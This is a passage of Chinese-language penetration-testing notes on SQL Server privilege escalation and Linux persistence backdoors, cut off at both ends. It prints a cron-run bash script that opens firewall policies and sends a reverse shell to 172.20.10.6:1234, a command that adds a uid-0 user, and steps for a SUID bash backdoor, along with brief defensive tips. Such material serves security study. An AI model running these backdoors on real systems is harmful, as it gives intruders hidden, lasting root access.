     利用Java存储过程
    
- **SQL Server提权**
    
    SQL Sever数据库自身可以执行操作系统命令的存储过程xp_cmdshell，从而可能被攻击者利用实现权限的提升。
    
    - xp_cmdshell
    - sp_oacreate

## 权限维持

### Linux系统后门

- **Bash远控后门**
    - 在目标主机上编写后门文件
    - `chmod  +x` 为后门脚本增加执行权限
    - 利用“Crond”计划任务服务定时执行后门文件
    
    ```bash
    #!/bin/bash
    
    if netstat -ano | grep -v grep | grep "172.20.10.6">/dev/null
    then
    echo "OK">/dev/null
    else
    /sbin/iptables --policy INPUT ACCEPT
    /sbin/iptables --policy OUTPUT ACCEPT
    
    bash -i >& /dev/tcp/172.20.10.6/1234 0>&1
    
    fi
    ```
    
    该脚本首先查询是否有远程回连的Shell， 如果没有就关闭目标主机的防火墙规则，允许一切输入输出流量，并送目标主机反弹Shell到远程主机。
    
- **添加用户后门**
    
    可以添加一个拥有“root”权限的用户(uid=0)作为后门使用:
    
    `useradd -o -u 0 backdoor`
    
    PS: 防御措施
    
    - 多查看系统账户的相关情况
    - 注意那些使用较少的账户是不是被更改过
- **SUID Shell后门**
    
    利用拥有”root”权限的脚本，让普通用户可以使用“root”权限。
    
    - 拷贝`/bin/bash`文件为”backdoor”
    - 使用`chmod 4755`给予相应的权限
    - 使用普通用户运行`./backdoor`后门文件，此时普通用户可以拥有root权限
    
    PS： 防御措施
    
    - 重要目录上增加文件指纹校验防护功能
    - 使用`find` 查找有没有危险的具有”root”权限的“suid”程序
    - 查找SUID设置的文件
- **软连接后门**
    
